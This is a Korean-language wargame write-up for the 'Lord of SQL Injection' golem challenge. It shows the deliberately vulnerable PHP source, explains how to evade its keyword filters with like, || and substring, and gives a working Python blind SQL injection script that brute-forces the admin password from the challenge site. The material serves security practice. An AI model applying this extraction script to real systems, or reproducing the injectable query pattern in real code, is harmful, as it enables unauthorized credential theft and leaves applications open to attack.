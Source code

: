 ## Lord of SQL Injection No. 11- golem
## 문제 출제 의도
substr과 대입연산자 없이 SQL 문을 조작할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드
Golem의 소스 코드는 다음과 같다.   
    ~~~ 
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 문자열에 'or, and , substr( , =중 하나라고 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 한 레코드의 id 값이 'admin'이고 pw값이 입력한 pw 값과 같을 떄 즉 id가 'admin'인 회원의 pw값을 알아내야 한다.
## 문제 해결
+ like
    - 대입 연산자를 대체하여 그 자리에 동일하게 like를 삽입하면 '='을 사용하지 않고 SQL문을 조작 가능하다.

+ Sugstring
    - substr과 동일한 기능을 하는 함수로 substr 대신 사용하면 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
            data = "' || id like 'admin' && substring(pw,1,{}) like '{}'#".format(str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0") 
            re.add_header("Cookie", "PHPSESSID=6ckrsnfovcd74972o80ugmksb4")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
        print(key)
    ~~~
    - 이를 실행하면 pw=88e3137f가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.